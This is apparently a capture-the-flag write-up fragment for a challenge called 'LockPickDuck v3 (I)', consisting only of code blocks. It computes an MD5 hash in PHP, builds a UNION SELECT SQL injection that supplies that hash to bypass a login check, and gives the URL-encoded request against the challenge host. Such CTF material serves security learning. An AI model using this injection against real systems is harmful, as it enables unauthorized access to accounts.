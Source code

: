 # LockPickDuck v3 (I) 爆鎖鴨第三代 (其一)

```
php > var_dump(md5('x'));
string(32) "9dd4e461268c8034f5c8564e155c67a6"
```

```
' UNION SELECT '9dd4e461268c8034f5c8564e155c67a6' -- 
```

```
http://hkoscon23.pwnable.hk:28001/?user=%27%20UNION%20SELECT%20%279dd4e461268c8034f5c8564e155c67a6%27%20--%20&pass=x
```
